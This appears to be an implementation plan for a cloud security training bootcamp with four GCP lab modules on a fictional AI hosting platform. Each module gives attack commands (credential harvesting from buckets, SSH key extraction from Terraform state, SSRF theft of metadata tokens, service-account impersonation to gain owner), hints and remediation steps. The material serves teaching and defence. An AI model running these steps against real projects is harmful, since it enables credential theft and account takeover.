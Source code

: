 # AI Security Bootcamp Implementation Plan

> Context: "CloudAI Labs" - A model hosting platform (like Hugging Face) with security flaws

## Implementation Details

### Code Structure
- Reuse existing terraform files
- Add simple Flask ML API
- Pre-deploy vulnerable notebooks

### Student Experience  
- ~30 minutes per module
- Story → Attack → Fix
- Visual diagrams provided

### Simplifications
- No Kubernetes
- Pre-configured gcloud
- Focus: Storage, Functions, IAM

# Modules

## Module 1: Enumeration and Discovery
**Attack**:
- Predictable bucket names: modeldata-{dev,prod}
  - Student given 'modeldata-dev' bucket to start
- Dev bucket has a 'bucket-service-account'.json
- The 'bucket-service-account' has access to 'modeldata-prod' bucket
- Hints:
  - Hint1: "what's in the bucket? any creds?"
  - Hint2: "what can those creds access? (insert use-creds-command here)
  - Hint3: "what if there was another bucket for prod?"

**Remediation**:
- Go to Cloud Storage → Select "cloudai-dev" bucket
  - Delete the service account json from the bucket
- Go to IAM, Create new Service Account 'dev-bucket-sa'
  - Student selects tf-preconfigured 'Dev Bucket Access' role

**Engagement**: "CloudAI's 'secret' GPT-5 benchmarks leaked. No insider needed - how?"


## Module 2: Environment Secrets & State Exposure
**Attack** (Adapt Challenge 3):
- `gsutil ls` newly discovered 'modeldata-prod' bucket
  - Discover + download Terraform Statefile
- Examine file, notice 'alice' user, and 'nat' IP
  - Also notice "SSH key" secret visible in encoded form
- Decode SSH Key, dump to local file
  - Use it to `ssh alice@nat-ip` to access deployed VM

**Remediation**:
Prevent decodable SSH Key
- Open GCP Console → Security → Secret Manager
- Click "Create Secret", name: "ssh-key"
- Paste the exposed SSH key, click "Create"

**Engagement**: "Your startup's LLM architecture leaked. Trace the breach through exposed deployment files."

## Module 3: Instance Metadata Service Exploitation  
**Attack** (Use Challenge 4):
- SSH into VM from Module 2: `ssh -i ~/.ssh/alice-key alice@<NAT-IP>`
- Check current service account: `gcloud auth list`
  - Notice default compute service account with full project access
- Discover cloud function bucket: `gsutil ls`
  - Find 'cloud-function-bucket-challenge4' in output
- Read function source: `gsutil cat gs://cloud-function-bucket-challenge4/main.py`
  - Notice SSRF vulnerability in monitoring endpoint
- Run pre-installed script: `./invoke_monitoring_function.sh`
  - Script shows function URL format
- Extract service account token via SSRF:
  ```
  curl -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function \
    -H "Authorization: bearer $(gcloud auth print-identity-token)" \
    -H "Content-Type: application/json" \
    -d '{"metadata": "token"}'
  ```
- Hints:
  - Hint1: "Check what service account the VM is using"
  - Hint2: "Look for cloud functions in storage buckets"
  - Hint3: "The monitoring function fetches URLs - what about metadata.google.internal?"

**Remediation**:
- Go to IAM & Admin → Service Accounts → Create
- Name: "model-api-vm", description: "Minimal VM account"
- Skip permissions for now → Create
- Compute Engine → VM instances → Click instance
- Edit → Service account → Select "model-api-vm"
- Save → Test: SSRF gets limited token

**Engagement**: "Inference costs exploded overnight. The model API is accessing internal resources."

## Module 4: Service Account Misconfigurations [Extension]
**Attack** (Use Challenge 5):
- Use token from Module 3: `export CLOUDSDK_AUTH_ACCESS_TOKEN=<function-token>`
- Check project permissions: `gcloud projects get-iam-policy $PROJECT_ID`
  - Notice monitoring-function@ has custom role
- List all service accounts: `gcloud iam service-accounts list`
  - Find terraform-pipeline@ with admin privileges
- Examine custom role: `gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID`
  - Has owner-like permissions including setIamPolicy
- Check terraform SA bindings: `gcloud iam service-accounts get-iam-policy terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com`
  - monitoring-function@ has Token Creator role!
- Impersonate to escalate privileges:
  ```
  gcloud projects add-iam-policy-binding $PROJECT_ID \
    --member=user:<your-email> --role=roles/owner \
    --impersonate-service-account terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com
  ```
- Verify escalation: `gcloud projects get-iam-policy $PROJECT_ID | grep -A2 <your-email>`
- Hints:
  - Hint1: "What other service accounts exist in the project?"
  - Hint2: "Check IAM bindings on the terraform service account"
  - Hint3: "Service Account Token Creator allows impersonation"

**Remediation**:
- Navigate to IAM & Admin → Service Accounts
- Find "monitoring-function@" account → Click name
- Go to "Permissions" tab → View all permissions
- Find "terraform-pipeline@" in the list
- Click pencil icon next to "Service Account Token Creator"
- Select "Remove" → Confirm removal
- Test: `gcloud iam service-accounts get-iam-policy terraform-pipeline@...`
  - Verify monitoring-function@ no longer listed

**Engagement**: "Ex-employee claims they deleted all models using just an API token. Investigate."

